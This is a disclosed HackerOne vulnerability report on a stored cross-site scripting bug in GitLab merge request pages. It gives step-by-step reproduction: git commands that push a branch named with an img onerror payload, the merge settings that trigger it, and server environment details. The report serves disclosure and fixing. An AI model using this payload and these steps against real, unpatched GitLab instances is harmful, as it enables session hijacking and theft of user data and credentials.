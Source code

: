 # Stored XSS in merge request pages

## Report Details
- **Report ID**: 723307
- **URL**: https://hackerone.com/reports/723307
- **State**: Closed
- **Severity**: high
- **Submitted**: 2019-10-26T16:18:30.659Z
- **Disclosed**: 2023-05-30T06:55:16.590Z

## Reporter
- **Username**: mike12
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: gitlab

## Vulnerability Information
Hello Gitlab!

[Vulnerable code](https://gitlab.com/gitlab-org/gitlab/blob/9d81e97d9d111f874799605ce50ae480ae15b0c5/app/assets/javascripts/vue_merge_request_widget/components/states/mr_widget_rebase.vue#L47)

To reproduce the bug, we need to open a merge request with the following conditions:
1. Project must have 'Merge commit with semi-linear history' or 'Fast-forward merge' merge method
2. The merge request must require rebase before fast-forward/merge
3. A visitor of the merge request page must not have permissions to push to source branch
4. Target branch name must have a special name `<img/src='x'/onerror=alert(document.domain)>` :) 

**Steps to reproduce:**

1. Run Gitlab `docker run --detach --hostname gitlab.example.com --publish 443:443 --publish 80:80 --publish 22:22 --name gitlab gitlab/gitlab-ce:latest`
2. Create a new project
3. Go to the project settings and set the 'Merge method' to 'Fast-forward merge' or 'Merge commit with semi-linear history' {F618529}
4. Clone the repository and run the following in the repository:

    ```bash
    touch 1.txt
    git add 1.txt
    git commit -m "initial commit"
    git push origin master
    
    git checkout -b "<img/src='x'/onerror=alert(document.domain)>"
    touch 2.txt
    git add 2.txt
    git commit -m "add 2.txt"
    git push origin "<img/src='x'/onerror=alert(document.domain)>"
    
    git checkout master
    touch 3.txt
    git add 3.txt
    git commit -m "add 3.txt"
    git push origin master
    ```

5. Create a merge request `master` => `<img/src='x'/onerror=alert(document.domain)>`
6. Then we have to visit the merge request page under a user who does not have permissions to push to the source branch (in our case, `master` branch). For example: 
  * Make the project public and visit the merge request page under any user who does not have permissions in the project (or without authorization)
  * Invite a user to the project, but without permissions to push to the source branch.

{F618526}
{F618527}
{F618528}

```bash
root@gitlab:/# gitlab-rake gitlab:env:info

System information
System:		
Current User:	git
Using RVM:	no
Ruby Version:	2.6.3p62
Gem Version:	2.7.9
Bundler Version:1.17.3
Rake Version:	12.3.3
Redis Version:	3.2.12
Git Version:	2.22.0
Sidekiq Version:5.2.7
Go Version:	unknown

GitLab information
Version:	12.4.0
Revision:	1425a56c75b
Directory:	/opt/gitlab/embedded/service/gitlab-rails
DB Adapter:	PostgreSQL
DB Version:	10.9
URL:		http://gitlab.example.com
HTTP Clone URL:	http://gitlab.example.com/some-group/some-project.git
SSH Clone URL:	git@gitlab.example.com:some-group/some-project.git
Using LDAP:	no
Using Omniauth:	yes
Omniauth Providers: 

GitLab Shell
Version:	10.2.0
Repository storage paths:
- default: 	/var/opt/gitlab/git-data/repositories
GitLab Shell path:		/opt/gitlab/embedded/service/gitlab-shell
Git:		/opt/gitlab/embedded/bin/git
root@gitlab:/# 
```

## Impact

An attacker can:

1. Perform any action within the application that a user can perform
2. Steal sensitive user data
3. Steal user's credentials

## Attachments
- example1.png
- example2.png
- example3.png
- project-settings.png
